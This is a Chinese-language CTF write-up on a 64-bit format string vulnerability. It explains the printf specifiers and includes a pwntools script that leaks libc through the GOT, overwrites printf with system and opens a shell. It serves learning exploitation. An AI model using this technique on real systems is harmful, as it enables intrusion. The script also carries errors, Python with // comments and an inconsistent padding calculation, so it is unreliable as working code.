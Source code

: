 # 格式化字符串
## 漏洞点

``` printf的汇编代码
.text:00000000004006E1                 lea     rdi, aInteresting ; "Interesting "
.text:00000000004006E8                 mov     eax, 0
.text:00000000004006ED                 call    _printf
.text:00000000004006F2                 lea     rax, [rbp+buf]
.text:00000000004006F9                 mov     rdi, rax        ; format  //很明显的格式化字符串漏洞
.text:00000000004006FC                 mov     eax, 0
.text:0000000000400701                 call    _printf
.text:0000000000400706                 lea     
```
如果不清楚，可以看其源码

```
unsigned __int64 sub_40069D()
{
  char buf; // [rsp+0h] [rbp-410h]
  unsigned __int64 v2; // [rsp+408h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("What do you mean this time? ");
  read(0, &buf, 0x400uLL);
  printf("Interesting ", &buf);
  printf(&buf);  //格式化字符串漏洞
  puts(" food for thought");
  return __readfsqword(0x28u) ^ v2;
}
```
## 利用漏洞点
1. 先说一下printf的格式化字符串：</br>
<ul>
  <li> %c：输出字符，配上%n可用于向指定地址写数据。</li>
  <li>%d：输出十进制整数，配上%n可用于向指定地址写数据。</li>
  <li>%x：输出16进制数据，如%i$x表示要泄漏偏移i处4字节长的16进制数据，%i$lx表示要泄漏偏移i处8字节长的16进制数据，32bit和64bit环境下一样。</li>
  <li>%p：输出16进制数据，与%x基本一样，只是附加了前缀0x，在32bit下输出4字节，在64bit下输出8字节，可通过输出字节的长度来判断目标环境是32bit还是   64bit。</li>
  <li>%s：输出的内容是字符串，即将偏移处指针指向的字符串输出，如%i$s表示输出偏移i处地址所指向的字符串，在32bit和64bit环境下一样，可用于读取GOT表等信息。</li>
  <li>%n：将%n之前printf已经打印的字符个数赋值给偏移处指针所指向的地址位置，如%100x10$n表示将0x64写入偏移10处保存的指针所指向的地址（4字节），而%$hn表示写入的地址空间为2字节，%$hhn表示写入的地址空间为1字节，%$lln表示写入的地址空间为8字节，在32bit和64bit环境下一样。有时，直接写4字节会导致程序崩溃或等候时间过长，可以通过%$hn或%$hhn来适时调整。</li>
  <li>%n是通过格式化字符串漏洞改变程序流程的关键方式，而其他格式化字符串参数可用于读取信息或配合%n写数据。</li>
</ul>

printf的参数是可变的，可以是一个，两个，或者没有。printf会根据内存顺序读取参数，如果有格式化字符，就顺序分析。</br>

2. __利用思路__:
<p>首先确定格式化字符串在栈中的偏移，这里想要一直利用格式化字符串的漏洞，就得让其“循环”起来，可以一直调用printf函数。这里修改函数中用的最多的函数put为main函数地址，可以多次利用printf的漏洞，通过%s来泄漏在printf前运行过的函数，这里通过泄漏read的地址来泄漏libc，从而得到system地址。最后修改printf的got地址为system地址，在程序调用printf时，实际上是调用的system函数，最后，send‘/bin/sh\x00’作为system的参数。</p>
<p>不能直接在命令行上输入\x78\x23\x34%6$s进行测试，因为程序会把上述命令解析为\,x,7,8单个的字节，所以不会出现我们想要的结果。</p>

## 利用脚本
这道题目的偏移量为6。</br>

```
from pwn import *
from LibcSearcher import LibcSearcher
r = remote("vps1.blue-whale.me",19904)
elf = ELF('./pwn1')
#context.log_level='debug'

//修改puts_got地址为main的地址，达到多次利用漏洞的效果
main_addr = 0x40069D
puts_got = elf.got['puts']
r.recvuntil("What do you mean this time? ")
payload = "a%" + str(main_addr-1) + "c%8$lln" + p64(puts_got)  //这里为什么不用hhn?因为地址中有\x00，由于64位下用户可见的内存地址高位都带有\x00，容易截断我们构造的内容，所以把地址放在后边。其实作用一样，地址放哪都一样。这里的8是因为a%..c和%8$lln占了两个参数，分别为第六和第七个参数。相对于printf为第7和第8个参数。
#print payload
r.sendline(payload)

//泄漏read地址
read_got = elf.got['read']
r.recvuntil("What do you mean this time? ")
payload = "AAAA%7$s" + p64(read_got) //AAAA%7$s占一个参数，为第六个参数
r.sendline(payload)
r.recvuntil("Interesting ")
read_addr=u64(r.recvuntil("\x30",drop=True)[4:].ljust(8,'\x00'))
print hex(read_addr)

//泄漏libc,得到system地址
libc = LibcSearcher("read",read_addr)
libcbase = read_addr-libc.dump('read') 
system_addr = libcbase +libc.dump('system')
print hex(system_addr)

//修改printf_got为system地址，由打印出的地址可以看出，除了最后三个字节，其他字节都一样，system地址分三次单字节写入即可。
printf_got = elf.got['printf']
print hex(printf_got)
first = system_addr & 0xff  //低字节
second = (system_addr>>8) & 0xff //倒数第二个字节
third = (system_addr>>16) & 0xff //最后一个字节
payload = "%" + str(first) + "c%11$hhn"   //这里的11，是前边格式化字符串占了参数的位置，即顺序后延，格式化字符的第一个参数是在偏移11的位置，n是把输出字符的个数写入相应位置，把低字节\x..转为十进制的字符串，c表示字符个数，%123c表示123个字符串，在写入内存时，又以十六进制的形式写入，即把低字节\x..写入
payload += "%" + str(256-first+second) + "c%12$hhn"  //这里为什么用256减，因为要想把第二个字节写入，得需要减去第一个字节的个数，有可能第二个字节小于第一个字节，相减得到负数就会出错，这里向高位借1，即0x100=256,相当于取模。比如0x550423,第二个字节为0x04,而第一个字节为0x23,0x100+0x04-0x23=0xE1,实际写入的是0xE1+0x23=0x104,但是是单字节写入，会把高位给移出，还是写入的0x04。
payload += "%" + str(256-second+third) + "c%13$hhn"
payload += 'AAAA' //剩下的字节随便填充即可

if len(str(first))<3: //这里保证写入的地址为8的整数倍
    payload += 'A'
if len(str(256-first+second))<3:
    payload += 'A'
if len(str(256-first+third))<3:
    payload += 'A'
payload += p64(printf_got)
payload += p64(printf_got + 1)
payload += p64(printf_got + 2)

r.sendline(payload)

r.sendline("/bin/sh\x00") //printf("/bin/sh")-->system("/bin/sh")

r.interactive()

```

## 参考文章：
http://www.sohu.com/a/130725162_472906 </br>
https://www.cnblogs.com/ichunqiu/p/9329387.html
